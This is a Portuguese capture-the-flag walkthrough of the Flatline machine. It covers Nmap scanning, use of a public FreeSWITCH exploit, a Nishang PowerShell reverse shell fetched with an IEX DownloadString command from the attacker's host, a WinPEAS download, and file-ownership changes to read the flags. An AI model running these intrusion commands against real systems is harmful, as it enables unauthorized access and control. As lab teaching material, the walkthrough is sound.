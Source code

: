 # _**Flatline CTF**_
![](flat.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um serviço RDP, **ms-wbt-server** na porta 3389  
Vamos utilizar novamente o Nmap para tentar encontrar vulnerabilidades  
> ```bash
> nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -Pn -T4 [ip_adress]
> ```
![](nmap_script.jpg)

Apesar de termos retorno, nenhuma informação é relevante
Após buscar por CVEs e exploits disponíveis, nada foi encontrado  
Foi decidido então buscar pelo outro serviço disponível: FreeSWITCH

![](searchsploit.jpg)  

Encontramos!  
Vamos realizar download do arquivo em [exploit-db](https://www.exploit-db.com/exploits/47799)  
Copiamos o conteúdo para um arquivo _.py_ e verificamos como podemos executar  
Precisamos do endereço IP e um comando CMD, vamos testar _whoami_  

![](exploit_result.jpg)  

Funcionou!  
Vamos tentar obter um _reverse shell_  
Primeiro, vamos realizar o download de <mark>Nishang</mark> com ```sudo apt install```  
Nishang é uma coleção de scripts e payloads em PowerShell usados principalmente para _pentesting_ e _post-exploitation_ em ambientes Windows  
Agora, copiamos um dos arquivos para nosso diretório com ```cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 [current_dir]/shell.ps1```  
No código, adicionamos a seguinte linha no final: ```Invoke-PowerShellTcp -Reverse -IPAddress [ip_address] -Port [port]```  
Por fim, executamos esses comandos:
> ```bash
> nc -lnvp [port]
> python3 -m http.server
> python3 exploit.py [ip_address] "cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://[vpn_ip_address]:8000/shell.ps1')"
> ```
![](shell.obt.jpg)

Conseguimos!

## _**Escalando privilégios**_
Para escalarmos privilégios, vamos utilizar a ferramenta <mark>WinPeas</mark>  
> ```bash
> Invoke-WebRequest -Uri http://[ip_address]:8000/winPEASx64.exe -OutFile winpeas.exe
> ```
Em seguida, executamos o binário  
Verificando o resultado, temos que já somos administrador  

![](admin.jpg)  

Tentando acessar o conteúdo das flags, conseguimos _user.txt_, mas não _root.txt_  
Realizando um pouco de pesquisa sobre como dar permissões em um diretório, encontramos [isso](https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows)  
Então, executamos ```takeown /R /F *.*``` e em seguida ```icacls "root.txt" /q /c /t /grant Users:F``` para obtermos o conteúdo da segunda flag!
